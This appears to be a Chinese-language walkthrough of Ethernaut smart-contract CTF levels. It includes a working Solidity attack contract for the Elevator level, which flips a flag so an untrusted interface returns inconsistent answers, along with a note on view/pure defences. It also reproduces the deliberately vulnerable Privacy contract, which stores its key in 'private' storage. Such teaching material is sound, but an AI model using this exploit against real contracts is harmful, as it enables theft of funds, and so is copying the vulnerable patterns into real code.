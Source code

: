 第一次 `building.isLastFloor(_floor)` 为false，第二次变成true即可

```js
pragma solidity ^0.6.0;
interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
	bool flag = true;
	Elevator elevator;
	constructor(address instance) public {
		elevator = Elevator(instance);
	}
	function isLastFloor(uint) public returns (bool) {
		flag = !flag;
		return flag;
	}
	function hack() public {
		elevator.goTo(1);
	}
}
```

你可以在接口使用 `view` 函数修改器来防止状态被篡改. `pure` 修改器也可以防止状态被篡改

这一关的另一个方法是构建一个 view 函数, 这个函数根据不同的输入数据返回不同的结果, 但是不更改状态, 比如 `gasleft()`.

## Privacy

解锁合约

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```
